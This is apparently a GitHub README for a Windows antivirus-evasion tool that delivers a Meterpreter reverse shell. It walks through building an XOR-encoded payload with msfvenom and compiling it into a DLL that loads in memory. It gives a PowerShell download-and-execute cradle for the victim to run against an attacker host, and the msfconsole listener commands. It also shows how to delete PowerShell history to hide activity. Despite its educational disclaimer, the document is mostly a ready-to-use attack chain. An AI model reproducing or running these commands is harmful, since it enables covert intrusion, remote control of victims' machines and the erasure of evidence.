 # RS_meterpreter_bypass
Get a Meterpreter reverse_tcp shell and bypass AV.
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.
        
- Generate your payload **#1**
- XOR encode your shell script  **#2**
- Create a DLL to inject into memory **#3**
- Create a Powershell script to download and execute the DLL in memory **#4**

# How to use
**#1** Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

**#2** Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version

Execute the exe with:
        
        .\XOR_encoder.exe

Take note of the output, it is your new double-encoded payload.

We have now a double XOR-encoded shellcode.

**#3** To actually bypass AV we will need a .dll to run in memory, not in disk. 

We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.

The output will be ClassLibrary1.dll, the payload.

Now we have the .dll, we can host it in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

        service apache2 start

**#4** Now we just need to execute the .dll in memory, so we do a .ps1 script to do that, we can name it *download_cradle.ps1* also also this needs to be placed in /var/www/html:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function of [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs).

## Victim machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:

        > msfconsole
        > use exploit/multi/handler
        > set payload windows/x64/meterpreter/reverse_tcp
        > set LHOST 192.168.1.102
        > set LPORT 4444
        > exploit

Or we can use this shortcut:

        msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.102; set lport 4444; set ExitOnSession false; exploit -j"

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Useful informations
Powershell history can be found at:

        C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Or with the command...
        
        (Get-PSReadlineOption).HistorySavePath
        
You can delete it with:
        
        Remove-Item -path C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
        
This simple command will do everything:

         Remove-Item -path (Get-PSReadlineOption).HistorySavePath
    
The system will recreate the file as soon as we execute a new command, no worries

# Credits
- purpl3f0x

# Disclaimer
All the techniques provided here are solely meant for educational purposes only. All of the techniques taught here are only meant to be used in a closed laboratory environment or in consent with a second party.
